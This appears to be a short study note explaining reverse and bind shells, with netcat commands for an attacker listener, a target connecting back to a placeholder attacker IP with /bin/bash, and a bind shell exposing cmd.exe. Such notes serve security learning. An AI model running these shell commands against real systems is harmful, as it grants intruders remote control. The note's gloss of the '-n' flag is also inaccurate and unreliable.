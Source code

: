 #### Remote system interaction
* `reverse` shell - when we force the remote server to connect to our server.
	* the listener runs on the attacker's machine
	* the target connects to the attacker's machine with a shell
	* the attacker doesn't need to know the victim's IP
* `bind` shell - when we force remote server to open up a port which we can connect to in order to execute further commands. 
	* the listener on the server computer
	* the attacker need to know the IP address of the victim
	


### Tools
- Netcat
- Socat
- Metasploit - multi/handler
- Msfvenom

### simulating Reverse vs Bind shell
#### Reverse shell
Start listening on the attacker side
```zsh
sudo nc -lvnp <port>
```

Initiating connection from target side
```zsh
nc <attacker-ip> <port> -e /bin/bash
```

> the `-e` flag, which stands for `execute` instructs `nc` to execute the command that follows it after establishing a connection.

#### Bind shell
On the target machine (assume we're on the window machine - that's why we included `cmd.exe` file instead)
```zsh
nc -lvnp <port> -e "cmd.exe"
```

Connect to that service form the attacker `pc`
```zsh
nc <targets-ip> <port>
```


### Netcat
Time to explain the `-lvnp` thing
 - l - listening
 - v - verbose
 - n - host name resolution, `DNS`
 - p - port specification
